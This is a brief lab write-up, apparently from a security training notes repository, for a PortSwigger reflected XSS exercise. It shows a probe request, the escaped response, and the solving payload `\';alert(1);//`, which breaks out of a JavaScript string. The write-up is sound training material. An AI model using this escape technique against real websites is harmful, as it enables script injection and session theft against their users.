 # [Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped)

## Lab

This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets and double are HTML encoded and single quotes are escaped.

To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the `alert` function.

## Analysis

request:

  ```http
  GET /?search='"/\<> HTTP/1.1
  ```

- response:

  ```js
  <script>
      var searchTerms = '\'&quot;/\&lt;&gt;';
      document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
  </script>
  ```

  - `'`: escaped (1)
  - `"<>`: html encoded
  - `/\`: nothing (2)

(1) + (2) => ez to bypass

## Solutions

request:

```http
GET /?search=\';alert(1);// HTTP/1.1
```

response: boom, lab solved
